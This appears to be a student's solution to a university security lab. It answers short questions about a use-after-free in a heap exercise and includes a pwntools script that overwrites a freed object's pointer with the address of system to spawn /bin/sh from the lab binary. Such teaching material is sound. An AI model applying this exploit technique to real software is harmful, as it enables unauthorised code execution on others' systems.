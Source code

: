 # Laborator 6

## Exercise 1

### [Q1]: What type of objects can we allocate on the heap? What size are they?
### Solution to [Q1]:
`note_t` and `config_t`. Both are 64 bytes.

### [Q2]: What type of vulnerability can you notice?
### Solution to [Q2]:
Use After Free

### [Q3]: Can we overwrite interesting data from one class and then use it?
### Solution to [Q3]:
Overwrite with the address of `system`.

## Solution to Exercise 1: 
```python
#!/usr/bin/env python3

from pwn import *

system = 0x401140

target = process("./bin/ex1")

target.sendline(b"4")
target.sendline(b"a")

target.sendline(b"5")

target.sendline(b"1")
target.sendline(b"0")
target.sendline(p64(system))
target.sendline(b"a")

target.sendline(b"1")
target.sendline(b"1")
target.sendline(b"/bin/sh")
target.sendline(b"a")

target.sendline(b"2")
target.sendline(b"1")

target.interactive()
```